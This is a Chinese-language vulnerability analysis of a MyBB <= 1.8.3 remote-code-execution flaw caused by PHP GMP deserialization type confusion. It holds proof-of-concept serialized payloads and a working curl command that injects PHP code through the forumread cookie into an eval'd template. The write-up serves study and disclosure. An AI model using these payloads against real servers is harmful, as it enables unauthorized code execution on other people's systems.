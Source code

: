 MyBB\<=1.8.3 RCE
================

一、漏洞简介
------------

在使用精心编制的对象的`__wakeup()`魔术方法进行GMP反序列化时发现了一个类型混淆漏洞，该漏洞可被滥用来更新分配给已创建对象的任何属性，进而触发严重的安全问题。

二、漏洞影响
------------

PHP 5.6 \< 5.6.30

MyBB\<=1.8.3

三、复现过程
------------

### 漏洞分析

gmp.c

    static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
    {
        ...
        ALLOC_INIT_ZVAL(zv_ptr);
        if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
            || Z_TYPE_P(zv_ptr) != IS_ARRAY
        ) {
            zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
            goto exit;
        }

        if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
            zend_hash_copy(
                zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
                (copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
            );
        }

zend\_object\_handlers.c

    ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
    {
        zend_object *zobj;
        zobj = Z_OBJ_P(object);
        if (!zobj->properties) {
            rebuild_object_properties(zobj);
        }
        return zobj->properties;
    }

攻击者可以将`**object`更改为整数类型或bool类型的ZVAL，然后攻击者将能够通过`Z_OBJ_P`访问存储在对象库中的任何对象。这意味着攻击者将能够通过`zend_hash_copy()`更新对象中的任何属性。从而引发了一系列安全问题。

下面这段代码可以验证这个漏洞

    <?php

    class obj
    {
        var $ryat;

        function __wakeup()
        {
            $this->ryat = 1;
        }
    }

    $obj = new stdClass;
    $obj->aa = 1;
    $obj->bb = 2;

    $inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
    $exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
    $x = unserialize($exploit);
    var_dump($obj);

    ?>

预期结果:

    object(stdClass)#1 (2) {
      ["aa"]=>
      int(1)
      ["bb"]=>
      int(2)
    }

实际结果:

    object(stdClass)#1 (3) {
      ["aa"]=>
      string(2) "hi"
      ["bb"]=>
      string(2) "hi"
      [0]=>
      object(obj)#3 (1) {
        ["ryat"]=>
        &int(1)
      }
    }

### 漏洞利用

在`php 5.6<=5.6.11`中，DateInterval的`__wakeup()`使用`convert_to_long()`句柄并重新分配其属性，因此攻击者可以通过GMP的`gmp_cast_object()`将GMP对象转换成任何整数类型的ZVAL:

    static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
    {
        mpz_ptr gmpnum;
        switch (type) {
        ...
        case IS_LONG:
            gmpnum = GET_GMP_FROM_ZVAL(readobj);
            INIT_PZVAL(writeobj);
            ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
            return SUCCESS;

漏洞利用代码

    <?php

    var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));

    ?>

当然，也可以套用精心编制的`__wakeup()`

    <?php

    function __wakeup()
    {
        $this->ryat = (int) $this->ryat;
    }

    ?>

#### MyBB \<= 1.8.3

index.php

    if(isset($mybb->cookies['mybb']['forumread']))
        {
            $forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
        }

MyBB\<=1.8.3允许通过`unserialize()`反序列化cookie，因此攻击者能够更新`$mybb`或其他对象的属性，从而很容易导致安全问题，例如：XSS、SQL注入、RCE等
好消息是该漏洞已经在新版本得到了修复

### PoC

MyBB \<= 1.8.3 RCE漏洞

index.php

    eval('$index = "'.$templates->get('index').'";');

MyBB在模板解析过程中始终使用eval()函数。 inc/class\_templates.php

    class templates
    {
        ...
        public $cache = array();
        ...
        function get($title, $eslashes=1, $htmlcomments=1)
        {
            global $db, $theme, $mybb;
            ...
            $template = $this->cache[$title];
            ...
            return $template;
        }

如果我们可以控制`$cache`，我们就可以通过`eval()`函数注入php代码。
inc/init.php

    $error_handler = new errorHandler();
    ...
    $maintimer = new timer();
    ...
    $mybb = new MyBB;
    ...
    switch($config['database']['type'])
    {
        case "sqlite":
            $db = new DB_SQLite;
            break;
        case "pgsql":
            $db = new DB_PgSQL;
            break;
        case "mysqli":
            $db = new DB_MySQLi;
            break;
        default:
            $db = new DB_MySQL;
    }
    ...
    $templates = new templates;

`$templates`对象在`init.php`中实例化，并且在此之前实例化了四个对象。这意味着`$templates`对象的句柄被设置为5并存储到对象存储中，因此我们可以访问`$templates`对象并通过在GMP反序列化期间将GMP对象转换为整型ZVAL(其值为5)来更新`$cache`属性。这也表明我们可以通过eval()函数注入php代码。

当MyBB\<=1.8.3和PHP5.6\<=5.6.11时，只需在命令行上使用curl即可触发RCE：

    curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://0-sec.org/mybb
